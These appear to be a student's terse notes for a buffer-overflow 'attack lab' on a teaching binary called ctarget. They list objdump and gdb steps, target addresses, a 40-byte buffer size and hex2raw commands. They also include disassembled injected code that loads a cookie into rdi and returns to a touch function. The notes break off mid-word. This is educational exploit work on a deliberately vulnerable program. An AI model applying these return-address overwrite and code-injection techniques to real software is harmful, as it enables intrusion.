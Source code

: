 objdump to obtain dissambled version of ctarget.
To generate assembly code from the executable, execute `objdump -d ctarget > ctarget.s`.

gdb to step the execution through the last few steps.

touch1 address 4017c0
Modify buf through careful input to change the value of ret address to touch1.
buffer size 0x28, 40 bytes.
`./hex2raw < probehex.txt > proberaw`
`./ctarget -q < probraw`


0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret 

buffer head: rsp = 0x000000005561dc78
place 